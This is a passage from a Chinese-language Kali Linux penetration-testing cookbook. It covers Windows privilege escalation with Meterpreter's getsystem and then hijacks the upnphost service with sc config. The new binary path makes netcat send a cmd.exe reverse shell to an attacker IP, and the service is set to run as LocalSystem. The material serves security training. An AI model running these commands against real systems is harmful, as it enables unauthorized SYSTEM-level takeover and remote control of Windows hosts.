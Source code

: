 # 还有更多…

还有其他端口转发的方法；例如，使用 proxychains 将帮助您动态转发运行在不同网络子网内的服务器上的端口。一些技术可以在[`highon.coffee/blog/ssh-meterpreter-pivoting-techniques/`](https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/)找到。

# Windows 特权升级

在这个教程中，您将学习在 Windows Server 上获取管理员帐户的几种方法。有多种方法可以在 Windows 系统上获得管理员权限。让我们看看可以完成这个任务的几种方法。

# 如何做…

一旦我们在系统上有了 meterpreter，Metasploit 有一个内置模块，可以尝试三种不同的方法来获得管理员访问权限。首先，我们将看到 Metasploit 的臭名昭著的`getsystem`。要查看帮助，我们输入：

```
getsystem –h
```

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/e92de5f2-c7e9-4472-8afb-11e88200294f.png)

为了尝试获取管理员权限，我们输入以下命令：

```
getsystem
```

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/2e094e87-7be3-4f53-a2d8-8b35b8723e0f.png)

我们可以看到我们现在是`NT AUTHORITY\SYSTEM`。有时，这种技术可能不起作用，所以我们尝试另一种方法来在机器上获取系统。我们将看一些重新配置 Windows 服务的方法。

我们将使用**sc**（也称为**服务配置**）来配置 Windows 服务。

让我们看看`upnphost`服务：

```
sc qc upnphost
```

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/fa564bc4-6c7b-405c-9bd2-8aa28218926f.png)

首先，我们将我们的`netcat`二进制文件上传到系统上。一旦完成，我们可以使用我们的二进制文件更改正在运行的服务的二进制路径：

```
sc config upnphost binPath= "<path to netcat>\nc.exe -nv <our IP> <our port> -e C:\WINDOWS\System32\cmd.exe"
```

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/b59a25ff-43c7-4173-a313-82648ff44bad.png)

```
sc config upnphost obj= ".\LocalSystem" password= ""
```

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/9ddf4f36-b113-4963-8ed5-102aed8ec42c.png)
